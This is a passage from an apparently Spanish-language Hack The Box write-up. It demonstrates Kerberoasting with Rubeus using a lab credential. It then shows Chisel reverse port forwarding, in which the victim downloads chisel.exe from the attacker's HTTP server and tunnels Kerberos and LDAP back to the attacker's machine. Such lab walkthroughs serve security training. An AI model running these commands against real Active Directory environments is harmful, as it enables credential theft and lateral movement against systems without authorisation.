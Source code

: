 ```powershell
./Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```

<figure><img src="../../../../../.gitbook/assets/3409_vmware_VpwHqTxQQZ.png" alt=""><figcaption></figcaption></figure>

### Performing a port forwarding to perform a Kerberoasting attack (Chisel && GetUserSPNs)

A continuación, veremos otra de las maneras efectivas de explotar este ataque mediante Port-Forwarding.

Dado que el puerto 88 (Kerberos) no se encuentra expuesto en el equipo víctima y con la herramienta de _**impacket-GetUserSPNs**_ al principio no pudimos efectuar el ataque, el objetivo será realizar el Port-Forwarding del puerto 88 (Kerberos) y 389 (LDAP) del Domain Controller para que se encuentren accesibles desde nuestro equipo local de atacante.

Para ello, pasaremos el binario del _**chisel.exe**_ al equipo víctima, configuraremos el _**chisel**_ en sevidor en la máquina Kali y cliente en el equipo Windows, haremos que el Kerberos y LDAP sean accesibles por los mismos puertos pero desde nuestro equipo de atacante.

{% code overflow="wrap" %}
```bash
# Desde el equipo atacante
python3 -m http.server 80

# Desde el equipo víctima
IWR -Uri http://10.10.16.5/chisel.exe -OutFile chisel.exe

# Desde el equipo atacante
./chisel server --reverse -p 1234

# Desde el equipo víctima
./chisel.exe client 10.10.16.5:1234 R:88:127.0.0.1:88 R:389:127.0.0.1:389
```
{% endcode %}
